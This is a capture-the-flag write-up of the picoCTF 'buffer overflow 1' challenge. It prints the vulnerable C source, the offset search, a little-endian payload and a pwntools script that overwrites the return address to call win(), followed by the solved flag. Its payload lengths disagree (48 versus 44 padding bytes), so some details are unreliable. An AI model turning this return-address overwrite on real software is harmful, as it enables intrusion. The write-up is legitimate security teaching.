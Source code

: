 # buffer overflow 1
#### Write-up author: [jon-brandy](https://github.com/jon-brandy)
## DESCRIPTION:
Control the return address Now we're cooking! 
You can overflow the buffer and return to the flag function in the [program](https://github.com/jon-brandy/CTF-WRITE-UP/blob/4b15b8791f8a6558c6fc8bfedeba343c9ab77ec7/Asset/buffer%20overflow%201/vuln). 
You can view source [here](https://github.com/jon-brandy/CTF-WRITE-UP/blob/9cda637bea2a85da46ba8dce3c9ccf131928092f/Asset/buffer%20overflow%201/vuln.c). And connect with it using 
`nc saturn.picoctf.net 49449`.
## HINTS:
1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.
## STEPS:
1. First, download both file given.
2. Next, check the program, is it executeable or not.

![image](https://user-images.githubusercontent.com/70703371/184164409-dfc35fd8-6e24-4756-832e-de899e682792.png)

3. Seems we can make it executable and nicely it's not stripped, so we can see the function.
4. But before make it executeable, let's check are there any protection on the file.
5. Run -> `checksec --file vuln`.

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/184164974-2c09f927-035a-4b92-af20-35eaeca03ca3.png)

6. Seems like there's no protection, which means there's many solutions available here.

```
WE MAY:

Do bufferoverflow
Inject shellcode
````

7. Anyway let's view the source code.

> vuln.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); 
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE]; 
  gets(buf); 

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

8. Seems like there's a vuln here.

![image](https://user-images.githubusercontent.com/70703371/187901057-afcd349f-4dfb-4a30-b46b-4df0dd29f0be.png)

9. Let's run the program and input 32 A's.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/187900683-18470f53-aee9-49e0-90e7-317b9d573753.png)

10. Well let's try 36 A's now.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/187902266-209e5aa4-6a52-483c-b8d2-5ca3ccea166d.png)

11. Try 40 now.

![image](https://user-images.githubusercontent.com/70703371/187902360-9bc7428d-07af-42c9-8763-fd016d9d4409.png)

12. We got segmentation fault, means the program just crashed. 
13. But let's try to add another 4 bytes -> 44 A's.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/187903022-47f70b6e-b9d1-4b42-842c-4a389eaa5dd7.png)

14. Again we got segmentation fault, but we jumped to different address now.
15. But when i tried to add another 4 bytes -> 48 A's, i got this output.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/187903590-68f676dc-7e25-40ee-8cd1-c80a29c7be5e.png)

16. Notice 0x41 represent -> 'A'.
17. Great now we know the point where we can control the return address.
18. Next to find the address of `win` function i used a tools called `Cutter`.

> COMMAND 

```sh
Cutter vuln
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/187904538-6031f2c6-baf6-473a-bd92-163279f77d35.png)

19. Click the `sym.win`.

![image](https://user-images.githubusercontent.com/70703371/187904668-a1c26203-81da-4ad4-afe4-0310e42c2ab5.png)

![image](https://user-images.githubusercontent.com/70703371/187904851-06d7c870-4c20-4e59-b3ea-cf2cc2b30b9e.png)

> win address

```
0x080491f6
```

20. Based from the hint number 1 about endian, we know we can't display hexa bytes like this -> `0x080491f6`. We must display it in `Little-Endian`.

> ABOUT LITTLE ENDIAN

```
https://en.wikipedia.org/wiki/Endianness
```

21. So for the strings would be like this:

```py
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08'
```

22. For this solution i made this python script:

> SIMILIAR CONCEPT WITH RET2WIN

```py
import os
from pwn import *

os.system('clear')

sh = remote('saturn.picoctf.net', 63239)

sh.recvuntil('string: ')
p = b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08'
sh.sendline(p)


sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/187910840-49a1e938-d23d-40b3-ab23-e8241c105c67.png)

23. Finally, we got the flag!

## FLAG

```
picoCTF{addr3ss3s_ar3_3asy_c76b273b}
```

## LEARNING REFERENCES:

```
https://en.wikipedia.org/wiki/Endianness
```

